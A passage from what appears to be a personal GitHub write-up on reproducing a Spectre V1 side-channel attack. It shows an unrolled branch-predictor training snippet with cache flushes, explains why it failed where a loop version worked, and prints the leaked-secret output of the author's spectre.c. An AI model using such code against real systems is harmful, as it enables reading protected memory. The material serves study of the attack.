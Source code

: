 Snippet B:
```c
_mm_clflush(&array1_size);
for (volatile int z = 0; z < 100; z++) {}
victim_function(training_x);

_mm_clflush(&array1_size);
for (volatile int z = 0; z < 100; z++) {}
victim_function(training_x);

_mm_clflush(&array1_size);
for (volatile int z = 0; z < 100; z++) {}
victim_function(training_x);

_mm_clflush(&array1_size);
for (volatile int z = 0; z < 100; z++) {}
victim_function(training_x);

_mm_clflush(&array1_size);
for (volatile int z = 0; z < 100; z++) {}
victim_function(target_x);
```

These code snippets are both calling the `victim_function` with a valid `training_x` 4 times to train the branch predictor, before calling the `victim_function` with the invalid `target_x` and get the transient execution.

One would expect both of these to be the same as we are just unrolling the loop. However, only the one with the loop (Snippet A) works for Spectre (this is the construct used in the GitHub PoC). I tried to manually compare the assembly to see whether the compiler was using vastly different CPU instructions but it was not clear from that analysis what the issue was. It is also weird that the loop-based code works as one would expect the branches inside the loop to potentially ruin the branch predictor training.

This example shows just how elusive Spectre is. Since it relies on unobservable and undocumented execution semantics in the CPU, even very similar assembly code can have different results. This is why I maintain that my laptop is vulnerable to Spectre V1. I just haven't found the exact sequence of instructions that will get the desired transient execution.

In the end, duplicating this loop-based bitwise operations construct, I finally got my own version of the Spectre attack working on the desktop computer. The code is in `spectre.c` and it produces the following output:

```
Cache threshold is set to 80.
Character 0: Y (ASCII 89)
Character 1: o (ASCII 111)
Character 2: u (ASCII 117)
Character 3:   (ASCII 32)
Character 4: c (ASCII 99)
Character 5: a (ASCII 97)
Character 6: n (ASCII 110)
Character 7: ' (ASCII 39)
Character 8: t (ASCII 116)
Character 9:   (ASCII 32)
Character 10: r (ASCII 114)
Character 11: e (ASCII 101)
Character 12: a (ASCII 97)
Character 13: d (ASCII 100)
Character 14:   (ASCII 32)
Character 15: t (ASCII 116)
Character 16: h (ASCII 104)
Character 17: i (ASCII 105)
Character 18: s (ASCII 115)
```
